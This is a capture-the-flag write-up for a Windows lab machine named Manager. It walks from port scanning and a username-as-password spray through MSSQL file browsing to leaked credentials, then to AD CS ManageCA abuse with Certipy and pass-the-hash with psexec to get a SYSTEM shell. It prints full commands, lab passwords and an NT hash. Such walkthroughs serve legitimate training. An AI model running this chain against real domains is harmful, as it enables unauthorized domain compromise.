<div style="display: flex; justify-content: center; align-items: center;">

  <div style="margin-right: 20px;">
    
  </div>

  <div style="display: flex; flex-direction: column; text-align: left;">
    <div style="display: flex; align-items: center; margin-bottom: 10px;">
      <strong style="margin-right: 5px;">OS:</strong>
      
      <span style="margin-left: 5px;">Windows</span>
    </div>
    <div style="display: flex; align-items: center; margin-bottom: 10px;">
      <strong style="margin-right: 5px;">Difficulty:</strong>
      <span>Medium</span>
    </div>
    <div style="display: flex; align-items: center; margin-bottom: 10px;">
      <strong style="margin-right: 5px;">Author:</strong>
      <span>Geiseric</span>
    </div>
    <div style="display: flex; align-items: center;">
      <strong style="margin-right: 5px;">Release Date:</strong>
      <span>October 21, 2023</span>
    </div>
  </div>

</div>


## Recon

### nmap

``` bash
$ nmap -sC -sV 10.10.11.236
Starting Nmap 7.93 ( https://nmap.org ) at 2023-10-26 21:50 WEST
Nmap scan report for 10.10.11.236
Host is up (0.059s latency).
Not shown: 987 filtered tcp ports (no-response)
PORT     STATE SERVICE       VERSION
53/tcp   open  domain        Simple DNS Plus
80/tcp   open  http          Microsoft IIS httpd 10.0
|_http-title: Manager
|_http-server-header: Microsoft-IIS/10.0
| http-methods: 
|_  Potentially risky methods: TRACE
88/tcp   open  kerberos-sec  Microsoft Windows Kerberos (server time: 2023-10-27 03:50:31Z)
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: manager.htb0., Site: Default-First-Site-Name)
|_ssl-date: 2023-10-27T03:51:51+00:00; +7h00m00s from scanner time.
| ssl-cert: Subject: commonName=dc01.manager.htb
| Subject Alternative Name: othername:<unsupported>, DNS:dc01.manager.htb
| Not valid before: 2023-07-30T13:51:28
|_Not valid after:  2024-07-29T13:51:28
445/tcp  open  microsoft-ds?
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp  open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: manager.htb0., Site: Default-First-Site-Name)
|_ssl-date: 2023-10-27T03:51:51+00:00; +7h00m00s from scanner time.
| ssl-cert: Subject: commonName=dc01.manager.htb
| Subject Alternative Name: othername:<unsupported>, DNS:dc01.manager.htb
| Not valid before: 2023-07-30T13:51:28
|_Not valid after:  2024-07-29T13:51:28
1433/tcp open  ms-sql-s      Microsoft SQL Server 2019 15.00.2000.00; RTM
| ssl-cert: Subject: commonName=SSL_Self_Signed_Fallback
| Not valid before: 2023-10-26T02:26:14
|_Not valid after:  2053-10-26T02:26:14
|_ms-sql-ntlm-info: ERROR: Script execution failed (use -d to debug)
|_ms-sql-info: ERROR: Script execution failed (use -d to debug)
|_ssl-date: 2023-10-27T03:51:51+00:00; +7h00m00s from scanner time.
3268/tcp open  ldap          Microsoft Windows Active Directory LDAP (Domain: manager.htb0., Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=dc01.manager.htb
| Subject Alternative Name: othername:<unsupported>, DNS:dc01.manager.htb
| Not valid before: 2023-07-30T13:51:28
|_Not valid after:  2024-07-29T13:51:28
|_ssl-date: 2023-10-27T03:51:51+00:00; +7h00m00s from scanner time.
3269/tcp open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: manager.htb0., Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=dc01.manager.htb
| Subject Alternative Name: othername:<unsupported>, DNS:dc01.manager.htb
| Not valid before: 2023-07-30T13:51:28
|_Not valid after:  2024-07-29T13:51:28
|_ssl-date: 2023-10-27T03:51:51+00:00; +7h00m00s from scanner time.
Service Info: Host: DC01; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-time: 
|   date: 2023-10-27T03:51:11
|_  start_date: N/A
| smb2-security-mode: 
|   311: 
|_    Message signing enabled and required
|_clock-skew: mean: 6h59m59s, deviation: 0s, median: 6h59m59s

```

Important services from the scan:
	- 53/tcp   DNS
	- 80/tcp   Microsoft IIS
	- 1433/tcp Microsoft SQL Server 2019
	- 389/tcp  Microsoft Windows Active Directory LDAP (Domain: manager.htb0., Site: Default-First-Site-Name)


Add the domain to the /etc/hosts file


### HTTP Page

I didn't find anything useful on the webpage running on port 80


### Gobuster

Gobuster found nothing useful either


``` bash
$ gobuster dir --url 10.10.11.236 --wordlist /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt 
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.11.236
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Timeout:                 10s
===============================================================
2023/10/26 21:53:30 Starting gobuster in directory enumeration mode
===============================================================
/images               (Status: 301) [Size: 150] [--> http://10.10.11.236/images/]
/Images               (Status: 301) [Size: 150] [--> http://10.10.11.236/Images/]
/css                  (Status: 301) [Size: 147] [--> http://10.10.11.236/css/]   
/js                   (Status: 301) [Size: 146] [--> http://10.10.11.236/js/]    
/IMAGES               (Status: 301) [Size: 150] [--> http://10.10.11.236/IMAGES/]
/CSS                  (Status: 301) [Size: 147] [--> http://10.10.11.236/CSS/]   
/JS                   (Status: 301) [Size: 146] [--> http://10.10.11.236/JS/]    
                                                                                 
===============================================================
2023/10/26 22:15:43 Finished
===============================================================

```


### SMB

smbclient allowed access with an anonymous login, so I attempted to get more info through the service


## FootHold

### CrackMapExec

``` bash
$ cme smb 10.10.11.236 -u anonymous -p "" --rid-brute 
```
cme found 7 users


I added all the usernames to a .txt file and ran cme again with the newly obtained usernames to try and get a login
``` bash
$ cme smb 10.10.11.236 -u users.txt -p users.txt --no-brute 
```


We get a valid login
User: operator
Password: operator


### SQL

With the obtained login, we can login into the SQL Server using Windows Authentication
``` bash
$ mssqlclient.py -port 1433 manager.htb/operator:operator@10.10.11.236 -windows-auth 
```


We can use EXEC xp_dirtree to navigate the filesystem
Ended up finding a website backup zip file in the website root folder (C:\inetpub\wwwroot)
``` cmd
EXEC xp_dirtree 'C:\inetpub\wwwroot', 1, 1;
```


Since it is in the root folder of the website, we can download it just by adding it to the link in our browser



### User Login

After unzipping the file, these are the files we get


In the .old-conf.xml file we get the user raven password



### User Flag

We can now evil-winrm into the machine and get the user.txt flag
``` bash
$ evil-winrm -i 10.10.11.236 -u raven -p 'R4v3nBe5tD3veloP3r!123'
```



## PrivEsc

### Privileges/Certificates
First I checked the current privileges:
``` cmd
whoami /priv
```


I then ran [GhostPack's Certify.exe](https://github.com/r3motecontrol/Ghostpack-CompiledBinaries) to check for vulnerable certificates

``` cmd
*Evil-WinRM* PS C:\Users\Raven\Desktop> ./Certify.exe find /vulnerable

   _____          _   _  __
  / ____|        | | (_)/ _|
 | |     ___ _ __| |_ _| |_ _   _
 | |    / _ \ '__| __| |  _| | | |
 | |___|  __/ |  | |_| | | | |_| |
  \_____\___|_|   \__|_|_|  \__, |
                             __/ |
                            |___./
  v1.0.0

[*] Action: Find certificate templates
[*] Using the search base 'CN=Configuration,DC=manager,DC=htb'

[*] Listing info about the Enterprise CA 'manager-DC01-CA'

    Enterprise CA Name            : manager-DC01-CA
    DNS Hostname                  : dc01.manager.htb
    FullName                      : dc01.manager.htb\manager-DC01-CA
    Flags                         : SUPPORTS_NT_AUTHENTICATION, CA_SERVERTYPE_ADVANCED
    Cert SubjectName              : CN=manager-DC01-CA, DC=manager, DC=htb
    Cert Thumbprint               : ACE850A2892B1614526F7F2151EE76E752415023
    Cert Serial                   : 5150CE6EC048749448C7390A52F264BB
    Cert Start Date               : 7/27/2023 3:21:05 AM
    Cert End Date                 : 7/27/2122 3:31:04 AM
    Cert Chain                    : CN=manager-DC01-CA,DC=manager,DC=htb
    UserSpecifiedSAN              : Disabled
    CA Permissions                :
      Owner: BUILTIN\Administrators        S-1-5-32-544

      Access Rights                                     Principal

      Deny   ManageCA, Read                             MANAGER\Operator              S-1-5-21-4078382237-1492182817-2568127209-1119
      Allow  Enroll                                     NT AUTHORITY\Authenticated UsersS-1-5-11
      Allow  ManageCA, ManageCertificates               BUILTIN\Administrators        S-1-5-32-544
      Allow  ManageCA, ManageCertificates               MANAGER\Domain Admins         S-1-5-21-4078382237-1492182817-2568127209-512
      Allow  ManageCA, ManageCertificates               MANAGER\Enterprise Admins     S-1-5-21-4078382237-1492182817-2568127209-519
      Allow  ManageCA, Enroll                           MANAGER\Raven                 S-1-5-21-4078382237-1492182817-2568127209-1116
      Allow  Enroll                                     MANAGER\Operator              S-1-5-21-4078382237-1492182817-2568127209-1119
    Enrollment Agent Restrictions : None

[+] No Vulnerable Certificates Templates found!

```

Even though it found no Vulnerable Certificates, we see that Raven has ManageCA permission.
And with Manage CA permission, we can use this [attack](https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/ad-certificates/domain-escalation#attack-2) to escalate our privileges


### Exploit

"The technique relies on the fact that users with the Manage CA and Manage Certificates access right can issue failed certificate requests. The SubCA certificate template is vulnerable to ESC1, but only administrators can enroll in the template. Thus, a user can request to enroll in the SubCA - which will be denied - but then issued by the manager afterwards."


So first we add raven as an officer

``` bash
$ certipy ca -ca 'manager-DC01-CA' -add-officer raven -username raven@manager.htb -password 'R4v3nBe5tD3veloP3r!123'
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Successfully added officer 'Raven' on 'manager-DC01-CA'
```

Then we enable the SubCA template
``` bash
$ certipy ca -ca 'manager-DC01-CA' -enable-template SubCA -username raven@manager.htb -password 'R4v3nBe5tD3veloP3r!123'
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Successfully enabled 'SubCA' on 'manager-DC01-CA'
```

Now we can request a certificate based on the SubCA template, it will be denied but we will get the Request ID and the private key

``` bash
$ certipy req -username raven@manager.htb -password 'R4v3nBe5tD3veloP3r!123' -ca 'manager-DC01-CA' -target 10.10.11.236 -template SubCA -upn administrator@manager.htb
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Requesting certificate via RPC
[-] Got error while trying to request certificate: code: 0x80094012 - CERTSRV_E_TEMPLATE_DENIED - The permissions on the certificate template do not allow the current user to enroll for this type of certificate.
[*] Request ID is 20
Would you like to save the private key? (y/N) y
[*] Saved private key to 20.key
[-] Failed to request certificate
```
The Request ID is 20 in this case
Since we have the Manage CA and Manage Certificates privilege, we can now issue the failed certificate with the obtained ID

``` bash
$ certipy ca -ca 'manager-DC01-CA' -issue-request 20 -username raven@manager.htb -password 'R4v3nBe5tD3veloP3r!123'
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Successfully issued certificate
```

Finally we retrieve the certificate
``` bash
$ certipy req -username raven@manager.htb -password 'R4v3nBe5tD3veloP3r!123' -ca 'manager-DC01-CA' -target 10.10.11.236 -retrieve 20
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Rerieving certificate with ID 20
[*] Successfully retrieved certificate
[*] Got certificate with UPN 'administrator@manager.htb'
[*] Certificate has no object SID
[*] Loaded private key from '20.key'
[*] Saved certificate and private key to 'administrator.pfx'
```

To finally be able to login as administrator, we can get the administrator hashes by using the obtained certificate and private key

``` bash
$ certipy auth -pfx 'administrator.pfx' -username 'administrator' -domain 'manager.htb' -dc-ip 10.10.11.236
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Using principal: administrator@manager.htb
[*] Trying to get TGT...
[*] Got TGT
[*] Saved credential cache to 'administrator.ccache'
[*] Trying to retrieve NT hash for 'administrator'
[*] Got hash for 'administrator@manager.htb': aad3b435b51404eeaad3b435b51404ee:ae5064c2f62317332c88629e025924ef
```

With the obtained hash, we can login as administrator

``` bash
$ psexec.py manager.htb/administrator@manager.htb -hashes aad3b435b51404eeaad3b435b51404ee:ae5064c2f62317332c88629e025924ef -dc-ip 10.10.11.236
Impacket v0.11.0 - Copyright 2023 Fortra

[*] Requesting shares on manager.htb.....
[*] Found writable share ADMIN$
[*] Uploading file tSHvDKPA.exe
[*] Opening SVCManager on manager.htb.....
[*] Creating service Cuaw on manager.htb.....
[*] Starting service Cuaw.....
[!] Press help for extra shell commands
Microsoft Windows [Version 10.0.17763.4974]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32> whoami
nt authority\system
```

### Root Flag

All we have left to do is get the root.txt flag
